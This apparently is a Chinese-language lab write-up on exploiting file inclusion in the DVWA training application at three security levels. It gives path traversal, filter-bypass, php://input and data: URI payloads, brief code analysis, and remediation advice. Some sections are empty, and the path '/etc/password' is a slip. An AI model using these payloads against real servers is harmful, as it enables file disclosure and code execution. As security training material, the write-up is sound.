

# DVWA之文件包含 #

## 漏洞概述 ##

文件包含是指应用程序加载的文件（本地/远程）可以由用户提交的数据控制，从而导致攻击者控制恶意文件在服务器上执行

## 测试工具 ##

firefox浏览器，firefox插件new hackbar

## 测试方法 ##

### LOW级别 ###

1. 设置DVWA安全级别为LOW

2. 使用浏览器发起本地文件包含攻击

    payload:

	+ `../../../../../../../../../../etc/password`

	+ `c:\\\\windows\\win.ini`

    

3. 使用浏览器发起远程文件包含攻击

    

    

    

4.  代码分析

    

    说明：

    代码直接读取page参数同时使用include进行文件包含执行

### MEDIUM级别 ###

1. 设置DVWA安全级别为Medium

2. 使用浏览器发起本地文件包含攻击

    payload:

    + `…/./…/./…/./…/./…/./…/./…/./…/./…/./…/./etc/password`
    + `….//….//….//….//….//….//….//….//….//….//etc/password`

3. 使用浏览器发起远程文件包含攻击

    payload:

    + `hthttp://tp://localhost:9999/file_include_low.php`
    + `php://input <?php phpinfo();`
    + `data:text/plain;charset=utf-8,<?php phpinfo();`

    

    

4. 代码分析

    

    说明：

    清除page参数中的http://、https://、../、..\字符串, 可以使用php://input，php://filter, data url schema等进行注入，也可使用替换逻辑漏洞(只替换一次)将被替换字符串迭代使用，例如hthttp://tp://被替换后为http://

### HIGH级别 ###

1. 设置DVWA安全级别为High

2. 代码分析

    

    说明：

    对提交参数进行检查，只允许include.php以及file开头的文件被包含，只能包含本地file开头的文件或配合文件上传漏洞组合进行利用

## 修复建议 ##

1.  使用白名单列表限制被包含文件

2.  关闭远程文件包含功能

3.  避免web服务器启动用户权限过高
